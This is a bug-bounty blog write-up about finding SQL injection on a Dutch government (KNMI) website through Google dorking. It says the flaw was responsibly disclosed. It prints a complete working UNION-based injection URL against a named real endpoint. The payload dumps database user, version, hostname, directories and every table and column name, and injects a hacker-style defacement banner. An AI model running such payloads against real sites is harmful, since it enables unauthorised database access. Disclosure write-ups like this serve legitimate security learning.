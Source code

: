 ```yaml
---
title: "How I Found SQLI on a Dutch Government Website in 20 Minutes"
published: true
ayout: post
categories: [bounty]
tags: [bounty,SQL Injection] 
---
```



## Introduction

Assalamu Alaikum! This is Nasur Ullah. I’m currently an undergrad student and a passionate Webapp security learner from Pakistan.

This is my first write-up and I’ll be sharing how I found SQL Injection Vulnerability on a Dutch government website.



## Story


It was a sunny afternoon in 2020, and I was mindlessly scrolling through my Facebook feed when a particular post caught my eye. It was from my friend [Remonsec](https://twitter.com/remonsec) from Bangladesh Remonsec mentioned the possibility of earning swag from Dutch government Intrigued, I reached out to Remonsec to tell me about scope of Dutch government and the scope was Wildcard so i directly use google dork `php id= site:.knmi.nl`  I was able to uncover several endpoints associated with `KNMI.nl` One such endpoint caught my attention: `https://eca.knmi.nl/utils/stationdetail.php?stationid=168` To assess its susceptibility to SQL injection, I inserted a single quote (') into the URL, prompting a site response that concealed certain images. This confirmed the presence of a SQL injection vulnerability.

![Remonsec](/assets/sqli/Remonsec.PNG)

Taking a manual approach, I endeavored to exploit the vulnerability further. After a few minutes of investigation and trial, I successfully executed an exploit, affirming the presence of the SQL injection flaw. I promptly reported my findings to `Dutch government` providing detailed information about the vulnerability and the steps to reproduce it.

## Final URL: ```https://eca.knmi.nl/utils/stationdetail.php?stationid=-168%27%20Union%20Select%20concat(%27%3Ccenter%3E%27,%27%3Cimg%20src=%22https://preview.ibb.co/mzji7p/39094260_106012140345838_338859137104347136_n.jpg%22%20height=%22300px%22%20width=%22300px%22%27,%27%3C/center%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22black%22%20size=%225%%22%3EInjected%20by%20.//D4RK%20!Nj3C70R++%27,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22red%22%3EUser::%20%20%20%20%20%20%27,user/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EVersion::%20%20%20%20%27,%27%3C/font%3E%27,version/**_**/(),%27%3Cbr%3E%27,%27%3Cfont%20color=%22green%22%3EDatabase::%20%20%20%27,%27%3C/font%3E%27,database/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EHost::%20%20%20%27,@@HOSTNAME,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3EDirectory::%20%20%20%20%20%20%27,@@BASEDIR,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3ESymlink::%20%20%20%20%27,@@HAVE_SYMLINK,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3ESSL::%20%20%20%27,@@HAVE_OPENSSL,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3C/br%3E%27,(select(@x)/*!50000from*/(/*!50000select*/(@x:=0x00),(select(0)/*!From*/(/*!50000information_schema.columns*/)/*!50000where*/(table_schema=database/**_**/())and(0x00)in(@x:=/*!50000coNcat*/%20(@x,0x3c62723e,/*!50000table_name*/,0x203a3a20,/*!50000column_name*/))))x)),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+```

I quickly made a proof of concept and reported it to them A one days later, I received an email from the Dutch government, thanking me for my contribution to their cybersecurity efforts. As a token of appreciation, they sent me a personalized package filled with swag, a tangible recognition of my valuable contribution.


## Key Takeaways

This experience underscores the effectiveness of employing Google dorking techniques, especially when dealing with wildcard scopes, to unearth potential vulnerabilities within target domains. Additionally, it emphasizes the importance of responsible disclosure and collaboration with security organizations to enhance online security.
